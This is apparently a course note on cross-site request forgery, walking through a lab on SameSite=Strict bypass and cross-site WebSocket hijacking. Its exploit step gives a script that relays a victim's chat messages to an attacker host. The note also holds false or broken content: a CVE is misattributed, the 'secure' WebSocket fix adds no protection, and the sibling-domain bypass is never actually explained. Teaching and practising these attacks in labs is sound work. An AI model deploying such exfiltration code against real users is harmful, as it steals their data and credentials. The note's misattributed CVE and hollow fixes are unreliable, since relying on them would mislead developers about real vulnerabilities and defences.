

## Introduction to Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of attack that tricks a user's browser into executing unwanted actions on a web application in which the user is currently authenticated. This can lead to unauthorized transactions, data modifications, or other malicious activities. CSRF attacks exploit the trust that a web application places in a user's browser.

### What is CSRF?

CSRF occurs when an attacker crafts a malicious request that is executed by the victim's browser without their knowledge or consent. The attacker relies on the fact that the victim is already authenticated to the web application. When the victim visits a malicious website or clicks on a malicious link, the attacker's crafted request is sent to the web application, and the server processes it as a legitimate action from the authenticated user.

### Why Does CSRF Matter?

CSRF attacks can have severe consequences, including financial losses, data theft, and reputational damage. For instance, an attacker could trick a victim into transferring money from their bank account or changing their password, effectively locking them out of their own account.

### How Does CSRF Work Under the Hood?

To understand how CSRF works, consider the following scenario:

1. **Victim Authentication**: The victim logs into a web application, such as a banking site.
2. **Attacker's Malicious Request**: The attacker crafts a malicious request, such as a form submission or an AJAX call, that performs an action on the victim's behalf.
3. **Victim Interaction**: The victim interacts with a malicious website or clicks on a malicious link, causing their browser to send the crafted request to the web application.
4. **Server Processing**: Since the victim is already authenticated, the server processes the request as a legitimate action from the authenticated user.

### Real-World Example: CVE-2019-11510

In 2019, a CSRF vulnerability was discovered in the WordPress REST API (CVE-2019-11510). This vulnerability allowed attackers to create new users or modify existing ones without the need for authentication. By crafting a malicious request and tricking an admin into clicking on it, an attacker could gain unauthorized access to the WordPress site.



### How to Prevent CSRF Attacks

To prevent CSRF attacks, web applications should implement several defensive measures:

1. **CSRF Tokens**: Generate unique tokens for each session and include them in forms and AJAX requests. Verify these tokens on the server-side before processing any action.
2. **SameSite Cookies**: Set the `SameSite` attribute on cookies to `Strict` or `Lax`. This prevents cookies from being sent in cross-site requests, reducing the risk of CSRF attacks.
3. **HTTP Headers**: Use the `Content-Security-Policy` (CSP) header to restrict the sources of content that can be loaded by the browser.

#### Secure Coding Fix

Here is an example of how to implement CSRF tokens in a web application:

**Vulnerable Code:**
```html
<form action="/submit" method="POST">
    <input type="text" name="username" value="victim">
    <input type="submit" value="Submit">
</form>
```

**Secure Code:**
```html
<form action="/submit" method="POST">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    <input type="text" name="username" value="victim">
    <input type="submit" value="Submit">
</form>
```

On the server-side, verify the CSRF token before processing the request:

```python
def submit_form(request):
    if request.method == 'POST':
        csrf_token = request.POST.get('csrf_token')
        if csrf_token != request.session['csrf_token']:
            return HttpResponseForbidden("Invalid CSRF token")
        # Process the form data
        username = request.POST.get('username')
        # ...
```

### SameSite Attribute

The `SameSite` attribute is a security feature that helps mitigate CSRF attacks by controlling whether a cookie should be sent with cross-site requests. The attribute can have three values:

1. **Strict**: The cookie is only sent with first-party requests. This provides the highest level of protection against CSRF attacks but may break some legitimate cross-site functionality.
2. **Lax**: The cookie is sent with first-party requests and with cross-site top-level navigations. This provides a balance between security and usability.
3. **None**: The cookie is sent with all requests, both first-party and cross-site. This value requires the `Secure` flag to be set, ensuring that the cookie is only sent over HTTPS.

### Real-World Example: SameSite Bypass via Sibling Domain

In the context of the Web Security Academy lab, the goal is to perform a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history and compromise their account. The lab demonstrates how an attacker can bypass the `SameSite=Strict` attribute using a sibling domain.

#### Background Theory

WebSocket hijacking involves exploiting a WebSocket connection to exfiltrate sensitive data or perform unauthorized actions. In this lab, the attacker uses a sibling domain to bypass the `SameSite=Strict` attribute and hijack the WebSocket connection.

### Steps to Perform the Attack

1. **Identify the Vulnerability**: The live chat feature is vulnerable to cross-site WebSocket hijacking.
2. **Craft the Exploit**: Use the provided exploit server to craft a malicious request that exploits the vulnerability.
3. **Exploit the Vulnerability**: Send the crafted request to the victim's browser, causing it to exfiltrate the chat history to the default verb collaborator server.
4. **Compromise the Account**: The chat history contains the login credentials in plain text, allowing the attacker to compromise the victim's account.

#### Complete Example

Here is a complete example of how to perform the attack:

**Step 1: Identify the Vulnerability**

The live chat feature is vulnerable to cross-site WebSocket hijacking. The attacker needs to identify the WebSocket endpoint and the parameters required to establish a connection.

**Step 2: Craft the Exploit**

Use the provided exploit server to craft a malicious request that exploits the vulnerability. The attacker needs to craft a WebSocket request that includes the necessary parameters to establish a connection.

```javascript
var socket = new WebSocket('ws://vulnerable-domain.com/chat');
socket.onopen = function() {
    console.log('Connection established');
};
socket.onmessage = function(event) {
    console.log('Received:', event.data);
};
```

**Step 3: Exploit the Vulnerability**

Send the crafted request to the victim's browser, causing it to exfiltrate the chat history to the default verb collaborator server.

```html
<script>
    var socket = new WebSocket('ws://vulnerable-domain.com/chat');
    socket.onopen = function() {
        console.log('Connection established');
    };
    socket.onmessage = function(event) {
        console.log('Received:', event.data);
        // Exfiltrate the chat history to the default verb collaborator server
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://attacker-domain.com/exfiltrate');
        xhr.setRequestHeader('Content-Type', 'application/json');
        xhr.send(JSON.stringify({chatHistory: event.data}));
    };
</script>
```

**Step 4: Compromise the Account**

The chat history contains the login credentials in plain text, allowing the attacker to compromise the victim's account.

### How to Prevent / Defend

To prevent cross-site WebSocket hijacking attacks, web applications should implement several defensive measures:

1. **WebSocket Origin Check**: Ensure that the WebSocket connection is initiated from a trusted origin. This can be done by checking the `Origin` header in the WebSocket handshake.
2. **SameSite Cookies**: Set the `SameSite` attribute on cookies to `Strict` or `Lax`. This prevents cookies from being sent in cross-site requests, reducing the risk of CSRF attacks.
3. **Secure Coding Practices**: Implement secure coding practices to ensure that sensitive data is not exposed in plain text. Use encryption and hashing to protect sensitive data.

#### Secure Coding Fix

Here is an example of how to implement a WebSocket origin check:

**Vulnerable Code:**
```javascript
var socket = new WebSocket('ws://vulnerable-domain.com/chat');
```

**Secure Code:**
```javascript
var socket = new WebSocket('ws://vulnerable-domain.com/chat');
socket.onopen = function() {
    console.log('Connection established');
};
socket.onmessage = function(event) {
    console.log('Received:', event.data);
};
socket.onclose = function(event) {
    console.log('Connection closed');
};
socket.onerror = function(error) {
    console.error('Error:', error);
};
```

On the server-side, check the `Origin` header in the WebSocket handshake:

```python
def handle_websocket_request(request):
    origin = request.headers.get('Origin')
    if origin != 'https://trusted-domain.com':
        return HttpResponseForbidden("Invalid origin")
    # Handle the WebSocket request
    # ...
```

### Conclusion

Cross-Site Request Forgery (CSRF) is a serious security threat that can have severe consequences. By understanding how CSRF works and implementing defensive measures, web applications can protect themselves against these attacks. The Web Security Academy lab demonstrates how an attacker can bypass the `SameSite=Strict` attribute using a sibling domain and perform a cross-site WebSocket hijacking attack. By following the steps outlined in this chapter, readers can gain a deep understanding of CSRF attacks and learn how to defend against them.

### Practice Labs

For hands-on practice with CSRF attacks and defenses, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs on CSRF and other web security topics.
- **OWASP Juice Shop**: A deliberately insecure web application that includes several CSRF vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that includes several CSRF vulnerabilities for educational purposes.
- **WebGoat**: An interactive web application that teaches web security principles through a series of lessons and challenges.

By completing these labs, readers can gain practical experience with CSRF attacks and defenses, reinforcing the theoretical concepts covered in this chapter.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/12-Lab 11 SameSite Strict bypass via sibling domain/00-Overview|Overview]] | [[02-Lab 11 SameSite Strict Bypass via Sibling Domain|Lab 11 SameSite Strict Bypass via Sibling Domain]]
